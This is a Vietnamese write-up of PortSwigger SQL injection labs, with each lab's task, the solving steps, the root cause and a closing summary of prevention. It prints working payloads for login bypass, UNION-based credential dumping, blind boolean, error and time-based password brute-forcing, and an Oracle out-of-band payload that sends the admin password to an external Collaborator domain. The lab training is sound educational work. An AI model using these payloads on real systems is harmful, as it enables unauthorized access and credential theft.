# Portswigger - SQL Injection


## APPRENTICE

## 1. Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

### Mô tả bài

This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following: 
```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```
To solve the lab, perform a SQL injection attack that causes the application to display one or more unreleased products.


### Writeup

Đề bài đã cho biết rằng bài lab này chứa lỗ hổng ở chức năng lọc sản phẩm theo danh mục, vì vậy ta thử lọc sản phẩm theo mục bình thường.



Mục tiêu của chúng ta là phải hiển thị sản phẩm chưa được phát hành. Quan sát thấy khi ta lọc sản phầm theo `Corporate gifts` thì url sẽ có tham số `?category=Corporate+gifts`. Vì vậy đây chính là chỗ ta có thể thực hiện SQLi, sửa tham số này thành `?category=' OR 1=1-- `. 



Dấu `'` sẽ đóng chuỗi hiện tại, `OR 1=1` tạo điều kiện luôn đúng, còn `--` comment phần `AND released = 1` khiến cho sản phẩm chưa released cũng sẽ xuất hiện. Câu truy vấn lúc này thành:

```sql
SELECT * FROM products WHERE category = '' OR 1=1-- AND released = 1
```

Thành công solve bài lab.



### Root cause

```
Dữ liệu người dùng được nối trực tiếp vào điều kiện WHERE, cho phép thay đổi logic truy vấn và bỏ qua điều kiện ẩn dữ liệu.
```


## 2. Lab: SQL injection vulnerability allowing login bypass

### Mô tả bài

This lab contains a SQL injection vulnerability in the login function.

To solve the lab, perform a SQL injection attack that logs in to the application as the administrator user.


### Writeup

Mục tiêu của bài là đăng nhập vào tài khoản administrator. Ta nhập thử mật khẩu bất kì.



Do chưa biết mật khẩu và bài có nói là có lỗ hổng sqli ở chức năng đăng nhập, nhiều khả năng `username` và `password` được ghép trực tiếp vào truy vấn nên ta nghĩ đến cách để có thể comment đi được password bằng cách thêm `' OR 1=1-- `.



Thành công vào được tài khoản `administrator` và solve bài lab.



### Root cause
```
Username và password được ghép trực tiếp vào truy vấn đăng nhập thay vì sử dụng prepared statement.
```

## PRACTITIONER

## 3. Lab: SQL injection attack, querying the database type and version on Oracle

### Mô tả bài

This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string.


### Writeup

Ngay khi mở bài lab ta đã được cung cấp sẵn phiên bản database mà bài lab sử dụng. Đây cũng là mục tiêu ta phải hiện thị.

```
Make the database retrieve the strings: 'Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production, PL/SQL Release 11.2.0.2.0 - Production, CORE 11.2.0.2.0 Production, TNS for Linux: Version 11.2.0.2.0 - Production, NLSRTL Version 11.2.0.2.0 - Production'
```

Ta test thử chức năng filter do bài nêu rõ có sqli ở đây và database sử dụng là `Oracle`. Ta tiến hành xác định xem có bao nhiêu cột.



Vậy ta đã xác định chính xác có 2 cột giờ xác định kiểu dữ liệu của nó có chứa văn bản không.



Giờ ta sẽ tiến hành đọc phiên bản của Oracle, tham khảo payload tại [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/OracleSQL%20Injection.md):

```
' UNION SELECT banner, 'b' FROM v$version--
```





Solve được bài lab.

### Root cause

```
Ứng dụng cho phép chèn UNION SELECT, giúp attacker truy vấn các bảng hệ thống của Oracle.
```


## 4. Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft

### Mô tả bài

This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string.


### Writeup

Bài này tiếp tục có lỗ hổng sqli ở chức năng filter, trước hết hãy xác định số cột và kiểu dữ liệu.



Trong MySQL, `--` chỉ được hiểu là comment khi phía sau có khoảng trắng hoặc ký tự xuống dòng nên ta phải dùng `-- -` hoặc `#`, và cú pháp xem version là `@@version`.

```sql
' union select @@version, 'b'-- -
```



Đọc được phiên bản và solve bài lab.




### Root cause

```
Dữ liệu đầu vào được nối trực tiếp vào SQL và endpoint cho phép thực hiện truy vấn UNION.
```


## 5. Lab: SQL injection attack, listing the database contents on non-Oracle databases

### Mô tả bài

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the administrator user.


### Writeup

Ở bài này chức năng filter tiếp tục bị sqli, ta vẫn tiến hành xác định số cột và kiểu dữ liệu. 



Xác định chính xác 2 cột, sau đó xác định database sử dụng.



Vậy database sử dụng là `PostgreSQL`, tiếp theo tiến hành đọc danh sách các bảng của database bằng cú pháp của `PostgreSQL`.



Lúc này ta chú ý đến một bảng `users_slixjl` và ta tiếp tục liệt kê các cột có trong bảng này.



Với kết quả này ta chú ý có 2 cột là `username_xbiivo` và `password_wzhwjk`, tiến hành liệt kê 2 cột này:



Như vậy ta đã lấy được mật khẩu của `administrator`, tiến hành đăng nhập và solve được bài lab.




### Root cause

```
SQL injection cho phép truy cập bảng metadata information_schema, làm lộ cấu trúc database.
```


## 6. Lab: SQL injection attack, listing the database contents on Oracle

### Mô tả bài

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the `administrator` user.


### Writeup

Trước tiên vẫn xác định số cột và kiểu dữ liệu và cũng xác định được trang web sử dụng database `Orcale`.



Bây giờ ta sẽ tiến hành liệt kê tất cả các bảng. Tham khảo payload tại [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/OracleSQL%20Injection.md)



Ở đây ta chú ý đến bảng `USERS_OIABVV`, tiến hành liệt kê các cột của bảng này.



Tiếp tục liệt kê hai cột `USERNAME_VONPQA`, `PASSWORD_WJZOSI`.



Ta có được mật khẩu của administrator, tiến hành đăng nhập và solve được bài lab.




### Root cause

```
Ứng dụng cho phép truy vấn các bảng metadata của Oracle thông qua SQL injection.
```


## 7. Lab: SQL injection UNION attack, determining the number of columns returned by the query

### Mô tả bài

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. The first step of such an attack is to determine the number of columns that are being returned by the query. You will then use this technique in subsequent labs to construct the full attack.

To solve the lab, determine the number of columns returned by the query by performing a SQL injection UNION attack that returns an additional row containing null values.

### Writeup

Để dò số cột ta sử dụng payload

```
' UNION SELECT NULL, NULL,..., NULL-- -
```

cứ tăng dần NULL đến bao giờ trả về `200 OK` thì đó chính là số cột.



Vậy ta đã xác định được chính xác số cột là 3 và solve được bài lab.



### Root cause

```
Ứng dụng chấp nhận dữ liệu SQL tùy ý và phản hồi khác nhau khi số lượng cột trong UNION đúng hoặc sai.
```


## 8. Lab: SQL injection UNION attack, finding a column containing text

### Mô tả bài

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you first need to determine the number of columns returned by the query. You can do this using a technique you learned in a previous lab. The next step is to identify a column that is compatible with string data.

The lab will provide a random value that you need to make appear within the query results. To solve the lab, perform a SQL injection UNION attack that returns an additional row containing the value provided. This technique helps you determine which columns are compatible with string data.


### Writeup


Để dò số cột ta cũng sử dụng cách làm giống bài trước.

```
' UNION SELECT NULL, NULL,..., NULL-- -
```

cứ tăng dần NULL đến bao giờ trả về `200 OK` thì đó chính là số cột.



Vậy ta xác định chính xác số cột là 3, bây giờ ta sẽ ép kiểu cho từng giá trị `NULL` với kiểu dữ liệu `String` nội dung là `DDyFHL`.



Cột đầu tiên trả về lỗi, tức đây không phải cột phù hợp, tiếp tục các cột còn lại.



Cột phù hợp là cột 2 và ta solve được bài lab.



### Root cause

```
Thay từng giá trị NULL bằng chuỗi thử nghiệm. Nếu chuỗi xuất hiện trên trang và không lỗi kiểu dữ liệu, cột đó có thể chứa và hiển thị dữ liệu dạng text.
```


## 9. Lab: SQL injection UNION attack, retrieving data from other tables

### Mô tả bài

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you need to combine some of the techniques you learned in previous labs.

The database contains a different table called `users`, with columns called `username` and `password`.

To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user.

### Writeup

Đầu tiên, ta sẽ cần xác định số cột và kiểu dữ liệu.





Vậy số cột là 2 và kiểu dữ liệu đều là string.

Tiếp theo ta tiến hành đọc 2 cột `username` và `password` của bảng `users` theo yêu cầu đề bài.

```
' UNION SELECT username, password FROM users-- -
```



Đăng nhập bằng mật khẩu administrator vừa lấy được vừa rồi và thành công solve được bài lab.



### Root cause

```
Kết quả từ bảng users được ghép vào kết quả ban đầu. Attacker có thể đọc username và password thông qua các cột được hiển thị.
```

## 10. Lab: SQL injection UNION attack, retrieving multiple values in a single column

### Mô tả bài

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The database contains a different table called `users`, with columns called `username` and `password`.

To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user.

### Writeup

Đầu tiên, ta sẽ cần xác định số cột và kiểu dữ liệu.





Ta xác định chính xác được 2 cột nhưng chỉ cột 2 mới hiển thị ký tự dạng string.

Vì vậy muốn in được ra cả username và password thì ta cần phải nối xâu trong SQL.

```sql
' UNION SELECT NULL, CONCAT(username, ' : ', password) FROM users-- -
```

hoặc:

```sql
' UNION SELECT 0,username || ':' || password FROM users-- -
```



Đăng nhập tài khoản administrator và solve được bài lab.



### Root cause

```
Trang chỉ hiển thị một cột text nhưng attacker vẫn có thể nối nhiều giá trị vào cùng một cột.
```

## 11. Lab: Blind SQL injection with conditional responses

### Mô tả bài

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a `Welcome back` message in the page if the query returns any rows.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.

### Writeup

Ở bài lab này ta quan sát thấy một cookie là `TrackingId`.





Khi cookie này đúng sẽ hiện thông báo `Welcome back` còn nếu sai sẽ không hiện dòng này.

Ta sẽ xác nhận xem cookie này có dính SQLi hay không bằng cách thêm `' AND 1=1--` và `'AND 1=2--`





Như vậy sử dụng payload `' AND 1=1--` thì dòng chữ `Welcome back!` vẫn còn, ngược lại khi dùng payload `'AND 1=2--` thì dòng chữ này đã biến mất. Vậy chắc chắn là có SQLi ở cookie này.

Bây giờ ta sẽ tận dụng lỗ hổng này để bruteforce để xác định độ dài của mật khẩu `administrator`

```
' AND (SELECT LENGTH(password) FROM users WHERE username='administrator') > $number$-- -
```



Xác nhận payload hoạt động. Sử dụng Intruder ta xác nhận được độ dài là 20 vì payload 19 có thông báo Welcome back còn 20 thì không.





Tiếp theo ta tiến hành bruteforce mật khẩu.

```
' AND SUBSTRING((SELECT password FROM users WHERE username = 'administrator'), $idx$, 1) = $char$-- -
```



Lọc theo từ khóa welcome và sắp xếp tăng dần payload 1 ta sẽ thu được mật khẩu của `administrator` là `stlexwxnbflllwvm8pvn`.





### Root cause

```
Ứng dụng không hiển thị kết quả SQL nhưng nội dung phản hồi thay đổi tùy theo điều kiện đúng hoặc sai.
```


## 12. Lab: Blind SQL injection with conditional errors

### Mô tả bài

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.

### Writeup

Ở bài này trang web cũng cung cấp cho chúng ta một cookie `TrackingId`.



Sửa cookie bằng cách thêm một dấu nháy đơn:



Server trả về thông báo lỗi. Tiếp theo, đổi thành hai dấu nháy đơn:



Lỗi biến mất, điều này cho thấy lỗi cú pháp, cụ thể là dấu nháy đơn chưa được đóng, đang tạo ra sự khác biệt ta có thể quan sát được.

Bây giờ ta xác nhận server thực sự đang xử lý dữ liệu chèn vào như một câu query SQL, chứ không phải một loại lỗi khác. Trước tiên, hãy tạo một subquery có cú pháp SQL hợp lệ:



Server vẫn trả về lỗi, ta thử thêm `FROM dual`.



Ta không thấy còn lỗi nữa từ đó có thể suy ra mục tiêu nhiều khả năng đang sử dụng `Oracle`.

Tiếp tục ta thử kiểm tra bảng `users` có tồn tại hay không.



Điều này cho thấy bảng `users` tồn tại. Ta có thể tiếp tục khai thác bằng một điều kiện đúng hoặc sai:

```sql
' UNION SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual-- -
```



Xác nhận trả vể lỗi. Tiếp theo thay `1=2`.



Xác nhận không trả về lỗi tức là có thể kích hoạt lỗi tùy ý theo một điều kiện cụ thể đúng hay sai. Do đó ta có thể dùng cách này để kiểm một bản ghi cụ thể tồn tại trong bảng hay không. Ví dụ ta xác nhận `administrator` có tồn tại hay không.



Do `administrator` tồn tại nên `WHERE` giữ lại 1 dòng, nên `Oracle` phải tính:
```
CASE WHEN 1=1 THEN TO_CHAR(1/0)
```
`1=1` đúng → thực hiện `1/0` → phát sinh lỗi.

Sau đó ta xác định độ dài mật khẩu của `administrator`.

```sql
' UNION SELECT CASE WHEN LENGTH(password) > 1 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator'-- -
```

Ta xác nhận được độ dài là `20` do khi để `> 19` thì có lỗi còn `> 20` sẽ không lỗi.





Tiếp theo ta tiến hành bruteforce mật khẩu này bằng `SUBSTR(password, $idx$, 1) = $char$`.



Lọc các `req` trả về lỗi và sort theo payload 1, ta được mật khẩu là `gln1zbyzosxss8olsgmq`.






### Root cause

```
Ứng dụng phản hồi khác nhau khi database phát sinh lỗi, cho phép attacker biến lỗi thành tín hiệu đúng/sai.
```

## 13. Lab: Visible error-based SQL injection

### Mô tả bài

This lab contains a SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie. The results of the SQL query are not returned.

The database contains a different table called `users`, with columns called `username` and `password`. To solve the lab, find a way to leak the password for the `administrator` user, then log in to their account.


### Writeup

Ở bài này trang web cũng cung cấp cho chúng ta một cookie `TrackingId`, khi thêm dấu `'` ta thấy thông báo lỗi hiện luôn câu truy vấn sql:



Ở đây ta test thử với payload `' AND 1=CAST((SELECT 'a') AS int)-- -`



Khi ép kiểu sai từ hàm CAST thì lỗi hiển thị sẽ cho ta biết được giá trị sai đó là gì.

Tiếp theo ta tiến hành liệt kê `username` của bảng `users`.



Thông báo lỗi xuất hiện và câu truy vấn đã bị cắt ngắn do giới hạn kí tự, vì vậy phần comment đằng sau không đưa được vào truy vấn do đó ta xóa giá trị cookie ban đầu để tăng thêm được số kí tự.



Lúc này lại xuất hiện một lỗi mới, câu truy vấn đã được thực thi nhưng do trả về nhiều hơn một dòng nên không thể dùng trong phép ép kiểu đơn giá trị, do đó ta sẽ thêm `LIMIT 1` để giới hạn.



Thông báo lỗi này làm lộ `username` đầu tiên trong bảng là `administrator`, do `administrator` không thể ép kiểu sang `int`.

Do ta đã biết `administrator` là dòng đầu tiên vì vậy ta cũng sẽ đọc password đầu tiên:



Thành công lấy được mật khẩu.




### Root cause

```
Ứng dụng hiển thị trực tiếp thông báo lỗi database, bao gồm dữ liệu được ép kiểu hoặc nội dung truy vấn.
```


## 14. Lab: Blind SQL injection with time delays

### Mô tả bài

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

To solve the lab, exploit the SQL injection vulnerability to cause a 10 second delay.

### Writeup

Ở bài này trang web cũng cung cấp cho chúng ta một cookie `TrackingId`



Vì ta chưa biết server sử dụng loại db nào do đó ta thử cú pháp sleep của các loại, tham khảo tại [đây](https://portswigger.net/web-security/sql-injection/cheat-sheet). 



Xác nhận trang chậm 10s, sử dụng database `PostgreSQL` và solve bài lab.


### Root cause

```
Attacker có thể gọi hàm sleep của database và đo thời gian phản hồi HTTP.
```


## 15. Lab: Blind SQL injection with time delays and information retrieval

### Mô tả bài

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.

### Writeup

Ở bài này trang web cũng cung cấp cho chúng ta một cookie `TrackingId`, tận dụng payload bài trước xem với bài này nó còn hoạt động không.



Dựa vào time phản hồi ta xác nhận nó vẫn hoạt động, tận dụng điều này ta test thử một payload có điều kiện đúng sai:

```
' || (SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END)-- -
```



Sau đó thay `1=2` để chạy điều kiện vế sau.



Tiếp theo ta test thử payload xem có tồn tại `user` là `administrator` hay không.

```
' || (SELECT CASE WHEN (username = 'administrator') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users)-- -
```


Tiếp theo xác nhận được số lượng kí tự của mật khẩu là 20.




Tận dụng logic này ta tạo payload để bruteforce mật khẩu của admin, nhận biết các ký tự đúng dựa vào thời gian delay của Response trả về.

```sql
' || (SELECT CASE WHEN (SUBSTR(password, 1, 1) = 'o') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users WHERE username = 'administrator')-- -
```

Tiến hành bruteforce, và thu được mật khẩu là `oj37togrn6f3rj6ca8tq`.





### Root cause

```
Thời gian phản hồi có thể được điều khiển dựa trên một điều kiện SQL đúng hoặc sai.
```


## 16. Lab: Blind SQL injection with out-of-band interaction

### Mô tả bài

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, exploit the SQL injection vulnerability to cause a DNS lookup to Burp Collaborator.

### Writeup

Mục tiêu bài lab này là cần phải tận dụng lỗ hổng SQLi và làm cho trang web lookup đến domain của Burp Collaborator.

Trang web cũng cung cấp cho chúng ta một cookie `TrackingId`.



Tham khảo payload DNS lookup tại [Cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet). Do chưa biết server sử dụng database nào nên ta thử từng cái, kết quả thu dược payload của `Orcale` thực thi được.

```sql
' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM ""> %remote;]>'),'/l') FROM dual--
```



- `XMLTYPE(...)`: tạo và phân tích XML chứa external entity.
- `SYSTEM "http://......"`: yêu cầu server tải tài nguyên từ Burp Collaborator.
- `%remote;`: kích hoạt external entity, làm phát sinh DNS/HTTP request ra ngoài.
- `EXTRACTVALUE(...)`: buộc Oracle xử lý XML.
- `FROM dual`: bảng giả một dòng bắt buộc dùng với SELECT trên Oracle.


### Root cause

```
Database có quyền thực hiện truy vấn DNS hoặc kết nối ra ngoài. Attacker lợi dụng chức năng này để xác nhận SQL injection.
```


## 17. Lab: Blind SQL injection with out-of-band data exfiltration

### Mô tả bài

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.

### Writeup

Bài này tương tự bài trên nhưng mục đích là lấy được mật khẩu administrator, thử payload bài trước xem có thực thi được hay không.

```sql
'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http://psl3vmbfhb28bzh9diy0paxv7mdd14pt.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual-- 
```



Xác nhận payload hoạt động. Tiếp theo tiến hành đọc `password` của `administrator`

```sql
'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.psl3vmbfhb28bzh9diy0paxv7mdd14pt.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual-- -
```

Ta lấy được password.





### Root cause

```
Database được phép gửi request ra ngoài và attacker có thể đưa dữ liệu nhạy cảm vào tên miền hoặc URL của request đó.
```


## 18. Lab: SQL injection with filter bypass via XML encoding

### Mô tả bài

This lab contains a SQL injection vulnerability in its stock check feature. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables.

The database contains a `users` table, which contains the `usernames` and `passwords` of registered users. To solve the lab, perform a SQL injection attack to retrieve the `admin` user's credentials, then log in to their account.

### Writeup

Quan sát thấy chức năng kiểm tra tồn kho gửi `productId` và `storeId` đến ứng dụng dưới định dạng XML.



Tiếp theo thử kiểm tra xem giá trị `storeId` có được ứng dụng tính toán hay không:



Tiếp theo, thử xác định số cột của truy vấn bằng:



Request này bị WAF chặn vì bị nhận diện là payload tấn công.



Xác nhận ứng dụng trả về 1 cột, khi dùng nhiều hơn thì trả về `0 units`.



Đăng nhập tài khoản `administrator` và solve bài lab.



### Root cause

```
Ứng dụng có bộ lọc chặn từ khóa SQL ở dạng văn bản thông thường nhưng dữ liệu được XML decoder giải mã sau khi kiểm tra. Bộ lọc và database nhìn thấy hai nội dung khác nhau.
```

## Tổng kết

**SQL Injection** (SQLi) là lỗ hổng xảy ra khi ứng dụng đưa dữ liệu người dùng trực tiếp vào câu truy vấn SQL mà không xử lý an toàn. Kẻ tấn công có thể làm thay đổi cấu trúc truy vấn để đọc, sửa, xóa dữ liệu, bypass đăng nhập hoặc trong một số trường hợp chiếm quyền máy chủ cơ sở dữ liệu.

### Các loại SQL Injection phổ biến

- **In-band SQLi:** Kẻ tấn công gửi payload và nhận dữ liệu ngay trong response của website.
    - **UNION-based**: Dùng UNION SELECT để lấy dữ liệu từ bảng khác.
    - **Error-based**: Cố tình gây lỗi SQL để thông báo lỗi làm lộ dữ liệu.
- **Blind SQLi**: Website không trả trực tiếp dữ liệu SQL, nên phải suy luận.
    - **Boolean-based**: So sánh phản hồi khi điều kiện đúng và sai, ví dụ AND 1=1 với AND 1=2.
    - **Time-based**: Tạo độ trễ nếu điều kiện đúng, rồi dựa vào thời gian phản hồi để đoán dữ liệu.
- **Out-of-band SQLi**: Cơ sở dữ liệu gửi dữ liệu hoặc tín hiệu ra máy chủ bên ngoài qua DNS hoặc HTTP. Dùng khi response, lỗi và thời gian đều không thể quan sát được.
- **Second-order SQLi**: Payload chưa gây lỗi ngay mà được lưu vào database. Khi ứng dụng lấy dữ liệu đó ra và ghép vào một truy vấn khác, SQL injection mới xảy ra.


### Cách phát hiện và khai thác

Kẻ tấn công thường chèn dấu `'` để tìm lỗi cú pháp, thử các điều kiện như ` AND 1=1` và `AND 1=2`, sử dụng comment `--` để loại bỏ phần còn lại của truy vấn hoặc dùng payload tạo độ trễ.

Ví dụ bypass đăng nhập:
```
administrator'--
```
Truy vấn có thể trở thành:
```
SELECT * FROM users
WHERE username = 'administrator'--'
AND password = ''
```
Ví dụ lấy dữ liệu bằng UNION:
```
' UNION SELECT username,password FROM users--
```
Quy trình khai thác UNION thường gồm:
```
Xác định số cột bằng ORDER BY hoặc UNION SELECT NULL.
Tìm cột có thể hiển thị chuỗi.
Xác định loại cơ sở dữ liệu.
Liệt kê bảng và cột.
Truy xuất dữ liệu cần thiết.
```
Với Blind SQLi, attacker sẽ kiểm tra từng điều kiện hoặc từng ký tự dựa vào nội dung response, lỗi, thời gian phản hồi hoặc tương tác DNS bên ngoài.

### Hậu quả
- Đọc dữ liệu nhạy cảm như tài khoản và mật khẩu.
- Bypass đăng nhập và chiếm tài khoản admin.
- Sửa hoặc xóa dữ liệu trong cơ sở dữ liệu.
- Làm thay đổi nội dung và hành vi ứng dụng.
- Gây từ chối dịch vụ.
- Trong một số cấu hình, thực thi lệnh hệ điều hành hoặc xâm nhập máy chủ backend.

### Cách phòng tránh
- Sử dụng parameterized queries hoặc prepared statements.
- Không nối trực tiếp input người dùng vào câu truy vấn SQL.
- Dùng whitelist cho tên bảng, tên cột và giá trị ORDER BY.
- Giới hạn quyền của tài khoản database theo nguyên tắc ít quyền nhất.
- Không hiển thị lỗi SQL chi tiết cho người dùng.
- Kiểm tra và xử lý an toàn mọi input từ URL, form, cookie, header, JSON và XML.
- Không coi dữ liệu đã lưu trong database là dữ liệu đáng tin cậy.
- Sử dụng WAF như một lớp bổ sung, không thay thế việc sửa code.
- Thường xuyên kiểm thử bảo mật và rà soát các truy vấn động.